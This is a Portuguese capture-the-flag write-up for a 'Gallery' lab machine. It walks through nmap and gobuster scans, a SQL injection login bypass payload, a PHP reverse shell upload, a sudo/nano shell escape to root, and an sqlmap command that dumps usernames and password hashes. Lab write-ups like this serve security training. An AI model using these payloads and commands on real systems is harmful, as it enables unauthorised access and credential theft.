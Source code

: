 # _**Gallery CTF**_
![](gal.jpg)

## _**Enumeração**_
**DISCLAIMER**: _Você encontrará a maioria das respostas ao longo das imagens e textos deste write-up_  
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Acessando o site, temos uma página de login
Tentando alguns nomes e senhas comuns, não conseguimos acesso  
Na tentativa de ```' || '1'='1';-- -``` em _username_ e também em _password_, temos login  
Agora que temos login, vamos tentar descobrir diretórios com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address]:8080 -w ../seclists/Discovery/Web-Content/common.txt --status-codes-blacklist 200
> ```
![](scan_gobuster.jpg)

Vasculhando os diretórios e a própria página, encontramos um lugar que aceita upload de imagens  
Vamos tentar realizar upload de um _reverse shel_ em PHP  
Clicando na imagem, obtemos um _reverse shell_ com sucesso!  

![](reverse.jpg)

## _**Ganhando acesso**_
Transferindo e executando <mark>LinPeas</mark> na máquina alvo, temos o seguinte resultado interessante  

![](lin_result.jpg)

Encontramos uma senha  
Temos 2 usuários além de _root_, mas iremos tentar no principal  
Digitamos o comando ```su mike``` e inserimos a senha quando pedido  
Sucesso! Agora somos o usuário **mike** e temos a sua senha  

## _**Escalando privilégios**_
Digitando o comando ```sudo -l```, temos o seguinte  

![](sudo_l.jpg)

Verificando edições, não podemos  
Verificando seu conteúdo, é possível observar que temos a leitura de um arquivo através de ```nano```  
Investigando um pouco em GFTOBins, temos que ao digitar os seguintes comandos, podemos obter _root_  
> ```bash
> ctrl + z
> stty raw -echo;fg
> reset
> xterm
> export TERM=xterm
> sudo /bin/bash /opt/rootkit.sh (read)
> ctrl + r
> ctrl + x
> reset; sh 1>&0 2>&0
> ```
![](root.jpg)

Agora, basta ir atrás das flags  
Quanto ao CMS, pesquisando, foi identificado no início da página de login  
Este CMS possui a [seguinte CVE](https://www.exploit-db.com/exploits/50214)  
Para a _hash_ do usuário, foi necessário pesquisar como executar, não estava conseguindo seguindo as instruções  
Investigando onde era possível encontrar o _hash_, foi possível com este comando
> ```bash
> sqlmap -r test.req -D gallery_db -T users -C id,username,firstname,password --dump
> ```

![](hash_found.jpg)
